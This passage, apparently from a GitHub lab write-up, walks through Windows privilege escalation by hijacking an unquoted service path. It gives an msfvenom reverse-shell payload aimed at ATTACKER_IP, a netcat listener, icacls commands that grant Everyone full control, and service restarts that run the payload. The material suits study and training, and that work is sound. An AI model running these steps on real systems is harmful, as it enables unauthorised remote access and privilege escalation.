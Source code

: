 ```
C:\>icacls c:\MyPrograms
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/c2392e48-85e4-4caa-aeab-dd6e3b00ac58">
</p>


The ```BUILTIN\\Users``` group has AD and WD privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```
```
nc -lvp 4446
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/c4fedc36-d67e-488a-af99-5c2591f89131">
</p>

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to ```C:\MyPrograms\Disk.exe``` . We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```
```
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/a7930ab3-324c-4c61-8e1b-a915cee51338">
</p>

Once the service gets restarted, your payload should execute:

```
C:\> sc stop "disk sorter enterprise"
```
```
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with svcusr2 privileges:

```
user@attackerpc$ nc -lvp 4446
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/bc6564af-3f97-4c1f-93eb-45e623799245">
</p>
